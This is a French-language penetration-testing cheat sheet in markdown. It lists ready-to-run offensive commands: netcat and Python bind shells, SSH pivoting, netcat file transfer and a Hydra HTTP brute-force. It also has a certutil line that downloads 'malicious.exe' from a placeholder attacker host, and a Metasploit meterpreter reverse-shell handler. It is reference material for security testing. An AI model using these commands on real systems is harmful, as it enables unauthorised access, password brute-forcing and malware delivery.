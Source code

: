 <h2>Unix</h2>
Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port
<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

#### Hydra:
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

#### XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>

`systeminfo` pour obtenir des renseignements sur le systeme

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`tasklist` pour lister les processus

`netstat -ano` pour les connexions reseau

`dir sysprep /s /b` pour trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` pour lister les mises à jour installées

`certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe` le wget en cmd

`certutil.exe -decode bad.txt bad.exe` le base64 decode en cmd

<h3>Powershell</h3>

`get-WmiObject -class Win32_Share`


<h2>Metasploit</h2>
Handler :

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

`run post/windows/manage/migrate` pour changer sur un processus plus fiable</br>
